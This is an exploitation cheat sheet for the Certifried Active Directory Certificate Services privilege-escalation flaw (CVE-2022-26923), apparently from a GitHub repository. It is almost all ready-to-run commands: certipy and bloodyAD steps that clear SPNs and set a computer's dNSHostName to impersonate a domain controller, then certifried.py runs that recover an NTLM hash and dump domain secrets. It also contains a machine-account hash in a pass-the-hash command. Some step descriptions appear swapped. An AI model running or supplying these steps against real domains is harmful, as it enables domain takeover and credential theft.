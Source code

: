 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

## Enumeration

    certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'

### If Certipy doesn't print Certificate object SID is [...] after obtaining the certificate, then the attack can be conducted.

## Exploitation

#### 1) Clearing the SPNs

    bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

#### 2) Setting the dNSHostName value to the name of a computer account to impersonate

    bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

#### 3) Verifying the dNSHostName value and SPN entries

    bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname

#### 4) Adding a computer account and setting the dNSHostName to impersonate

    certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"

## Alternate Method

#### 1) Request certificate manually

    python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 (Add the computer and update necessary attributes)

#### 2) Recover NTLM Hash

    python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap (Request the certificate manually)

### Proceed with secretsdump

#### 3) After obtaining the NTLM hash, proceed with dumping secrets

    python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump

#### 4) Modify computer account

 - python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f (In case you obtain a machine account hash, modify the computer account.)
